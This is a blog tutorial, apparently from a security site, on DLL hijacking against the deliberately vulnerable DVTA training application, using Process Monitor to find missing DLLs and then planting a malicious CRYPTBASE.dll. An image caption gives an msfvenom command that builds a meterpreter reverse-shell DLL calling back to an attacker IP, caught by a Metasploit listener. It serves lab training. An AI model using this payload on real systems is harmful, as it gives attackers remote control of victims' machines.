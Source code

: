 # DLL Hijacking
<!-- wp:paragraph -->
<p>Tools needed:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Windows virtual machine</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Kali linux</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>DVTA application</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Process Monitor</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>MSFVENOM</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>By taking advantage of the way some Windows applications look for and load Dynamic Link Libraries, a technique known as "DLL hijacking" allows malicious code to be injected into an application (DLL).</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This tutorial will showcase a simple DLL hijacking via the DVTA application. The application can be downloaded <a href="https://github.com/srini0x00/dvta/releases/tag/2.0" data-type="URL" data-id="https://github.com/srini0x00/dvta/releases/tag/2.0" target="_blank" rel="noreferrer noopener">here</a>. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4735,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-330.png?w=892" alt="" class="wp-image-4735"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Download the application to your windows machine before running the application start up process monitor.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><em>Process Monitor is a sophisticated Windows monitoring program that displays process/thread activity, file system activity, and registry activity in real time.</em></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Lets' run the DVTA application.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4714,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-318.png?w=796" alt="" class="wp-image-4714"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4733,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-329.png?w=537" alt="" class="wp-image-4733"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Disable the following tabs in the toolbar to reduce the noise of the process monitoring:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Show Registry activity</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Show Network activity</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4712,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-317.png?w=1024" alt="" class="wp-image-4712"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Once the application is executed , click filter in Process monitor and add the following filters:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Process Name is DVTA.exe</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Result is NAME NOT FOUND</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>PATH begins with &lt; <em>where the DVTA/bin/release folder is located in the machine</em>></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4716,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-319.png?w=607" alt="" class="wp-image-4716"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4717,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-320.png?w=605" alt="" class="wp-image-4717"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4719,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-321.png?w=603" alt="" class="wp-image-4719"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We can see couple of DLLs that were used but not found during the execution of the application.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4721,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-322.png?w=1024" alt="" class="wp-image-4721"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4731,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-328.png?w=859" alt="" class="wp-image-4731"/><figcaption class="wp-element-caption">Check permissions on the victim machine.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Let's craft a payload with the CRYPTBASE.dll</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Head to you attacking machine and use msfvenom to craft a payload </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4727,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-326.png?w=1024" alt="" class="wp-image-4727"/><figcaption class="wp-element-caption"><em>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.18.2 LPORT=4444 -f dll > CRYPTBASE.dll</em></figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Transfer the payload to the DVTA folder by a python webserver.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4724,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-324.png?w=798" alt="" class="wp-image-4724"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Let's set up a listener with msfconsole and use the multi handler exploit.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4729,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-327.png?w=1024" alt="" class="wp-image-4729"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Set the necessary options and run the exploit.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4723,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-323.png?w=440" alt="" class="wp-image-4723"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Head back to the victim machine and run the application again with the newly crafted payload inside the folder.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Check your attacking machine and a meterpreter session is gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4726,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-325.png?w=1024" alt="" class="wp-image-4726"/></figure>
<!-- /wp:image -->
